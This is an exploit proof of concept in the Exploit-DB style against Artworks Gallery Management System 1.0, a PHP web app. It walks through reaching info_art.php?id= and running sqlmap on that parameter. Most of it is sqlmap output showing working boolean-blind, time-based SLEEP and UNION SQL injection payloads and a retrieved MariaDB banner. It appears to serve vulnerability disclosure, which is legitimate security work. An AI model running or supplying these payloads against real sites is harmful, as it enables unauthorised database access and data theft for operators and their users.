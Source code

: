 EXP
---

    # Exploit Title: Artworks Gallery Management System 1.0 - 'id' SQL Injection
    # Exploit Author: Vijay Sachdeva
    # Date: 2020-12-22
    # Vendor Homepage: https://www.sourcecodester.com/php/14634/artworks-gallery-management-system-php-full-source-code.html
    # Software Link: https://www.sourcecodester.com/download-code?nid=14634&title=Artworks+Gallery+Management+System+in+PHP+with+Full+Source+Code
    # Affected Version: Version 1
    # Tested on Kali Linux

    Step 1. Log in to the application with admin credentials.

    Step 2. Click on "Explore" and then select "Artworks".

    Step 3. Choose any item, the URL should be "

    http://localhost/art-bay/info_art.php?id=6

    Step 4. Run sqlmap on the URL where the "id" parameter is given


    sqlmap -u "http://192.168.1.240/art-bay/info_art.php?id=8" --banner

    ---


    Parameter: id (GET)

        Type: boolean-based blind

        Title: AND boolean-based blind - WHERE or HAVING clause

        Payload: id=8 AND 4531=4531


        Type: time-based blind

        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)

        Payload: id=8 AND (SELECT 7972 FROM (SELECT(SLEEP(5)))wPdG)


        Type: UNION query

        Title: Generic UNION query (NULL) - 9 columns

        Payload: id=8 UNION ALL SELECT
    NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b627171,0x63435455546f41476e584f4a66614e445968714d427647756f6f48796153686e756f66715875466c,0x716a6b6b71)--
    -

    ---

    [08:18:34] [INFO] the back-end DBMS is MySQL

    [08:18:34] [INFO] fetching banner

    back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

    banner: '10.3.24-MariaDB-2'


    ---


    Step 5. Sqlmap should inject the web-app successfully which leads to
    information disclosure.